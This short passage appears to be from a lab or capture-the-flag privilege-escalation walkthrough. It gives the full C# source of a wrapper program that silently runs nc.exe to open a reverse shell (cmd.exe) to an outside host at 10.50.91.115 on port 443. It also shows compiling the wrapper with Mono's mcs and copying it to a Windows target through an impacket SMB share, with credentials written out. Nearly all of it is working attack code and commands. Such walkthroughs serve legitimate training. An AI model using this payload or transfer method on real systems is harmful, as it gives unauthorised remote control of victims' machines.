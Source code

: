 ![23fullcontrol](imgs/23fullcontrol.png)

Customizes the payload
- In Kali, we use the linux C# compiler Mono `mcs` compiler
- `vi priv.cs`
```
using System;
using System.Diagnostics;

namespace Wrapper{
  class Program{
    static void Main(){
      Process proc = new Process();
      ProcessStartInfo procInfo = new ProcessStartInfo("c:\\users\\public\\nc.exe", "10.50.91.115 443 -e cmd.exe ");
      procInfo.CreateNoWindow = true;
      proc.StartInfo = procInfo;
      proc.Start();
    }
  }
}
```
- Complie it by: `mcs priv.cs`
- Transfer it by using impacket-smbserver
```
impacket-smbserver share . -smb2support -username user -password s3cureP@ssword

net use \\10.50.91.115\share /USER:user s3cureP@ssword

copy \\10.50.91.115\share\priv.exe "C:\users\public\priv.exe"
```